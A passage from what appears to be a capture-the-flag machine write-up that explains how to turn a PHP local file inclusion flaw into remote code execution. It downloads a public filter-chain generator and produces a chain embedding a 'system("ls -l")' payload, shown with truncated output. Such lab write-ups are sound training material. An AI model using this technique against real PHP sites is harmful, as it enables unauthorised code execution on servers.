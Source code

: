 <img src="/assets/img/pollution/image 24.png" alt="image 24.png" style="width:800px;">

There is no clear way to poison logs or session cookies, or even a file upload functionality, so I will be chaining PHP filters with this amazing [script](https://github.com/synacktiv/php_filter_chain_generator) to achieve RCE. [This video](https://youtu.be/TnLELBtmZ24?si=TxdamZ97fRWJXHl7) by 0xdf explains it in detail.

First, I will test it locally. Started an HTTP server with an *index.php* that includes files and crafted a payload to list local files using the script.

```bash
wget https://github.com/synacktiv/php_filter_chain_generator/raw/refs/heads/main/php_filter_chain_generator.py

python3 php_filter_chain_generator.py --chain '<?php system("ls -l");?>'
[+] The following gadget chain will generate the following code : <?php system("ls -l");?> (base64 value: PD9waHAgc3lzdGVtKCJscyAtbCIpOz8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode
<SNIP>
```

Successfully read the secret file. This should work. Let’s move to the machine.

<img src="/assets/img/pollution/image 25.png" alt="image 25.png" style="width:800px;">
